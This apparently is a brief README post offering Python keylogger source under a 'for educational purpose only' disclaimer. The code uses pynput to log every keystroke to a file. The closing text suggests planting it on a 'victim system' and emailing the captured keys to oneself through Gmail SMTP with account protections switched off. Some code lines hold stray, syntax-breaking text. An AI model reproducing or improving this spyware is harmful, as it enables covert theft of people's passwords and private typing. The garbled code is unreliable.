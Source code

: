 # Keylogger
Posting this for Educational purpose only 

##### CODE #####
Sample code with emblem keylogger 
---------
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key)":"(remove krna hai ")
    logging.info(str(key))

with Listener(on_press=on_press) as listener:()
    listener.join()
    
----------

What More can be done is that you can use pyhton os library to 
make it robust and easily download it in the victim system then with gmail SMTPlib
you can send the rsult your self 

NOTE : you have to remove 2fa from your gmail and allow less secure login activated 
